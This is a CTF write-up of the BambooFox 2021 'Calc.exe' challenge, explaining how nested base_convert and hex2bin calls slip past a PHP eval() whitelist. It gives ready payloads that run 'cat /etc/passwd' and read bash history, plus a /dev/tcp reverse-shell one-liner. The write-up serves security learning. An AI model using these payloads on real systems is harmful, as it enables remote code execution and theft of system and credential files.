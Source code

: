 # Calc.exe

This challenge was part of BambooFox CTF 2021 and consisted in a classic online calculator app written in PHP.

## The challange

Upon accessing the [source](chall.ctf.bamboofox.tw:13377/?source) code, we can see that the application executes the mathematical expressions using the PHP [eval()](https://www.php.net/manual/en/function.eval.php) function and tries to avoid code injection by using some input validation technique based on a 'Accept Known Good' policy. As such, theres a regular expression to filter the input, only allowing characteres that can be part of a valid expression along with some mathematical functions.

## Bypassing the validation

The injection of code in this scenario doesn't seem very likely at first glance, but in a more detailed inspection I realized that an interesting function was allowed: [base_convert](https://www.php.net/manual/en/function.base-convert). This function can be used to convert numbers between different bases (up to base 36). My first tought was to use it to convert names of functions that are valid numbers in base 36, such as ``system`` and ``eval`` to integers and then use this same function again to convert it back inside the when the expression is evaluated. For example, to execute an ``ls`` on the server, we would write ``base_convert(1751504350,10,36)(base_convert(784,10,36))`` as input to the calculator and because of the way ``eval`` works, it would execute the conversion between bases and then execute ``system(ls)`` when the result is attributed to a variable inside the evaluated code.

The problem is that in base 36, we are limited to write only letters (a-z) and numbers (0-9) to represent integers. As such, we can't write something like ``ls ~/`` to list the contents of the home directory or ``bash -i >& /dev/tcp/LHOST/LPORT 0>&1`` to get a reverse shell. Luckily, as we can write any function name that is a valid base 36 integer, we can use bin2hex and hex2bin to bypass this limitation.

On most cases (including on this one), the maximum size of a integer in PHP is 2^32 bits, what means we need to limit each input to ``base_convert`` to strings representing numbers of a maximum of 4 bytes in length and if necessary, split such string to various pieaces and concatenate them together with a . (dot). So, now we can execute any linux command by splitting it in chunks of 4 or less bytes, converting each chunk to hex, converting this hex string to a integer using base_convert that is placed inside another call to ``base_convert(HEX_CHUNK,10,36)`` and then finally concatenating them inside an equaly crafted call to ``hex2bin`` that is then placed inside of a call to ``system`` ... and it should be executed as long as our final payload is smaller than 1024 bytes (another limitation imposed by this app).

It would look something like:

```
base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(chunk1,10,36).base_convert(chunk2,10,36).base_convert(chunk3,10,36)...))
```

Examples:


```
cat ~/.bash_history :
base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(477080140104,10,36).base_convert(750604760176249,10,36).base_convert(719870953460193,10,36).base_convert(719940671000037,10,36)))

cat /etc/passwd :
base_convert(1751504350,10,36)(base_convert(37907361743,10,36)(base_convert(477080140104,10,36).base_convert(189751590363,10,36).base_convert(189803607951,10,36).base_convert(428637964,10,36)))

```

## The flag

Having found a way to bypass the input validation, we can focus on finding the flag inside the server. To do this, I got a reverse shell which I used to explore the server and after a few minutes looking in the usual places (in the current directory, command history, environment variables, etc.) I found the variable in the root directory /, on a file named flag_{a hexadecimal string which I don't remember :p}.

## And that's all, folks.

